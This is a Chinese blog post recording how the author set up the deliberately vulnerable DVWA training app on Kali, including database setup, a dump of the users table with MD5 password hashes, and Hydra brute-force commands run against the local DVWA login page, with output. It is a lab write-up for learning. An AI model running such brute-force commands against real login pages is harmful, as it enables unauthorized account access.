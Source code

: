 ```yaml
---
layout: post
title: "DVWA 安装"
date: 2020-06-14 16:01:00 +0800
description: DVWA 安装中遇到的坑 # Add post description (optional)
img: dvwa.png # Add image post (optional)
tags: [Technical] # add tag
---
```



## 契机

在一个课程上看到了DVWA的使用，想要好好尝试一下，安装过程中遇到了下面的一些问题，记录下来，以免以后忘记。

## 安装XAMPP

DVWA的安装包中附着一个README文件
打开一看，我去还真长...
挑重点一看，官方推荐是哟功能XAMPP来作为网站的服务器。
遂下载
该服务器发布的版本中有Linux的deb安装包，下载之后，直接dkpg -i到Kali Linux上。
呐，Kali Linux呢，可能会报一些依赖问题。就按照报错中提示的解决依赖语句，直接贴在上一次运行的结果后面回车运行，应该就没问题了。

## 部署DVWA和设置数据库

* 把DVWA的官方压缩包解压，文件名更改为dvwa，然后整个丢到/opt/lampp/htdocs里面
* 按README的内容，把config.inc.php.dist更改为config.inc.php
原文（**Please make sure your config/config.inc.php file exists. Only having a config.inc.php.dist will not be sufficient and you'll have to edit it to suit your environment and rename it to config.inc.php.）
* 进入到opt/lampp/文件夹，找到manager-linux-x64.run。右键该文件，选择run选项。启动xmapp应用，在接面的Manage Servers这个tab里，启动Apache Web Server。
* 此时打开localhost/dvwa即可看见设置数据库的页面了
* 在设置数据库之前，确认本机安装了mysql或者mariadb。Kali Linux自带MariaDB，所以我是按照下面的指导进行的设置。使用MariaDB的时候，是不能用root帐号链接数据库的。
* 通过下面命令启动MariaDB：
systemctl start mariadb
* 按照README的说明进行数据库的设置。原文如下：

To set up the database, simply click on the Setup DVWA button in the main menu, then click on the Create / Reset Database button. This will create / reset the database for you with some data in.

If you receive an error while trying to create your database, make sure your database credentials are correct within ./config/config.inc.php. *This differs from config.inc.php.dist, which is an example file.*

The variables are set to the following by default:
```
php
$_DVWA[ 'db_user' ] = 'root';
$_DVWA[ 'db_password' ] = 'p@ssw0rd';
$_DVWA[ 'db_database' ] = 'dvwa';
```

Note, if you are using MariaDB rather than MySQL (MariaDB is default in Kali), then you can't use the database root user, you must create a new database user. To do this, connect to the database as the root user then use the following commands:
```
mysql
mysql> create database dvwa;
Query OK, 1 row affected (0.00 sec)

mysql> grant all on dvwa.* to dvwa@localhost identified by 'SuperSecretPassword99';
Query OK, 0 rows affected, 1 warning (0.01 sec)

mysql> flush privileges;
Query OK, 0 rows affected (0.00 sec)
```
You will then need to update the config file, the new entries will look like this:
```
php
$_DVWA[ 'db_user' ] = 'dvwa';
$_DVWA[ 'db_password' ] = 'SuperSecretPassword99';
$_DVWA[ 'db_database' ] = 'dvwa';
```
* 进行好上面的设置之后，在DVWA的页面上点击数据库设置按钮进行数据库设置。

#登录页面

此时就应该能成功看见DVWA的登录页面了
通过MariaDB中的用户数据库，可以查看DVWA中的用户帐号和MD5加密密码
直接用MD5对加密密码进行解密，即可登录进页面。
gordonb这个用户对应的密码为abc123
```
MariaDB [(none)]> use dvwa
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [dvwa]> show tables;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+
2 rows in set (0.001 sec)

MariaDB [dvwa]> select * from users;
+---------+------------+-----------+---------+----------------------------------+----------------------------------+---------------------+--------------+
| user_id | first_name | last_name | user    | password                         | avatar                           | last_login          | failed_login |
+---------+------------+-----------+---------+----------------------------------+----------------------------------+---------------------+--------------+
|       1 | admin      | admin     | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 | /dvwa/hackable/users/admin.jpg   | 2020-06-13 11:39:19 |            0 |
|       2 | Gordon     | Brown     | gordonb | e99a18c428cb38d5f260853678922e03 | /dvwa/hackable/users/gordonb.jpg | 2020-06-13 12:11:37 |            0 |
|       3 | Hack       | Me        | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b | /dvwa/hackable/users/1337.jpg    | 2020-06-13 11:39:19 |            0 |
|       4 | Pablo      | Picasso   | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 | /dvwa/hackable/users/pablo.jpg   | 2020-06-13 11:39:19 |            0 |
|       5 | Bob        | Smith     | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 | /dvwa/hackable/users/smithy.jpg  | 2020-06-13 11:39:19 |            0 |
+---------+------------+-----------+---------+----------------------------------+----------------------------------+---------------------+--------------+
5 rows in set (0.001 sec)
```
#Brute Force Attack
先玩了一下暴力破解的模块
找到了Kali Linux的密码破解工具箱里有一个叫Hydra的东东，打开是一堆命令行：
研究了半天命令行怎么用，最终琢磨出来下面的命令行：
-x 6:6:a1 表示，即时生成6位以小写字母和数字构成的密码，逐个尝试
127.0.0.1 自己搭建的服务器地址，应为网站域名
http-post-form 帐号密码提交属于这个请求类别
/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:S=logout ^USER^ ^PASS^ 均为占位符，对应前面的用户名和密码

```
hydra -l gordonb -x 6:6:a1 127.0.0.1 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:S=logout" -vV -f

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-14 09:29:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 2176782336 login tries (l:1/p:2176782336), ~136048896 tries per task
[DATA] attacking http-post-form://127.0.0.1:80/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:S=logout
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaaa" - 1 of 2176782336 [child 0] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaab" - 2 of 2176782336 [child 1] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaac" - 3 of 2176782336 [child 2] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaad" - 4 of 2176782336 [child 3] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaae" - 5 of 2176782336 [child 4] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaaf" - 6 of 2176782336 [child 5] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaag" - 7 of 2176782336 [child 6] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaah" - 8 of 2176782336 [child 7] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaai" - 9 of 2176782336 [child 8] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaaj" - 10 of 2176782336 [child 9] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaak" - 11 of 2176782336 [child 10] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaal" - 12 of 2176782336 [child 11] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaam" - 13 of 2176782336 [child 12] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaan" - 14 of 2176782336 [child 13] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaao" - 15 of 2176782336 [child 14] (0/0)
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "aaaaap" - 16 of 2176782336 [child 15] (0/0)
[VERBOSE] Page redirected to http://127.0.0.1/dvwa/login.php
[VERBOSE] Page redirected to http://127.0.0.1/dvwa/login.php
[VERBOSE] Page redirected to http://127.0.0.1/dvwa/login.php
[VERBOSE] Page redirected to http://127.0.0.1/dvwa/login.php
[VERBOSE] Page redirected to http://127.0.0.1/dvwa/login.php
[VERBOSE] Page redirected to http://127.0.0.1/dvwa/login.php
[VERBOSE] Page redirected to http://127.0.0.1/dvwa/login.php
[VERBOSE] Page redirected to http://127.0.0.1/dvwa/login.php
...
```
运行之后，程序就开始一行一行猜了，我算了一下，一共6位密码，每一位有36种可能，假设每秒钟可以尝试36组密码，大约需要699.84天...天啊...遂把程序停掉...
用密码试一试，看看破解的界面长什么样好了...
```
kate@Argo:~$ hydra -l gordonb -p abc123 127.0.0.1 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:S=logout" -vV -f
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-14 09:42:45
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking http-post-form://127.0.0.1:80/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:S=logout
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 127.0.0.1 - login "gordonb" - pass "abc123" - 1 of 1 [child 0] (0/0)
[VERBOSE] Page redirected to http://127.0.0.1/dvwa/login.php
[STATUS] attack finished for 127.0.0.1 (waiting for children to complete tests)
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-14 09:42:55

```
看来还是使用常用密码文本破解一下效率会比较高...

[hydra -L usernames.txt -P passwords.txt 127.0.0.1 http-post-form “/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login Failed”](https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/)

